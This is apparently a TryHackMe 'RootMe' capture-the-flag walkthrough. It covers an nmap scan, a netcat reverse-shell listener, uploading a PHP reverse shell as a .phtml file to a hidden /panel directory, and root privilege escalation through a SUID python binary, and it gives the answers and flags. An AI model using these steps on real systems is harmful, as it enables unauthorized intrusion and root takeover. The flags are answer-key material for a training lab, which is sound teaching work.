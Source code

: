 # RootMe

```
export IP=10.10.29.94
```
## Nmap scan
nmap -v -sC -sV -oN scans/initial $IP
```
Nmap scan report for 10.10.29.151
Host is up (0.060s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 4a:b9:16:08:84:c2:54:48:ba:5c:fd:3f:22:5f:22:14 (RSA)
|   256 a9:a6:86:e8:ec:96:c3:f0:03:cd:16:d5:49:73:d0:82 (ECDSA)
|_  256 22:f6:b5:a6:54:d9:78:7c:26:03:5a:95:f3:f9:df:cd (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: HackIT - Home
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
## Task 2

### Scan the machine, how many ports are open?

R:2

### What version of Apache is running?

R:2.4.29

### What service is running on port 22?

R:ssh

### What is the hidden directory?

R:/panel/

## Task 3

Go to hidden directory /panel/

netcat -vv -n -l -p 1234

upload file php_reverse_shell.phtml on $IP/panel

cat ./var/www/user.txt 

Flag: THM{y0u_g0t_a_sh3ll}

## Task 4

### Search for files with SUID permission, which file is weird?

find / -user root -perm /4000

R: /usr/bin/python

### root.txt

python -c ‘import os; os.execl(“/bin/sh”, “sh”, “-p”)’

find / -type f -name root.txt

cat /root/root.txt

OR python -c 'print(open("/root/root.txt").read())'

R: THM{pr1v1l3g3_3sc4l4t10n}